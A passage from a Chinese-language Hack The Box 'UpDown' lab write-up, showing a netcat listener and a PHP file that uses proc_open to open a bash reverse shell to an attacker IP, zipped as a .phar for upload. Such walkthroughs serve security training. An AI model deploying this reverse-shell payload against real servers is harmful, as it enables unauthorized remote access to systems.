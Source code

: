 + 开启本地监听：

    ```
    ┌──(kali㉿kali)-[~/桌面/HTB/UpDown]
    └─$ nc -nlvp 443
    listening on [any] 443 ...
    ```

+ 将脚本进入如上利用操作：压缩上传并访问

    ```
    ┌──(kali㉿kali)-[~/桌面/HTB/UpDown]
    └─$ vim test.php
                                                    
    ┌──(kali㉿kali)-[~/桌面/HTB/UpDown]
    └─$ cat test.php
    <?php
                $descspec = array(
                        0 => array("pipe", "r"),
                        1 => array("pipe", "w"),
                        2 => array("pipe", "w")
                );
                $cmd = "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.16.7/443 0>&1'";
                $proc = proc_open($cmd, $descspec, $pipes);
    ?>
                                                    
    ┌──(kali㉿kali)-[~/桌面/HTB/UpDown]
    └─$ zip test.phar test.php
    updating: test.php (deflated 53%)
    ```
    ![](/style/image/2024-02-19-16-27-06.png)
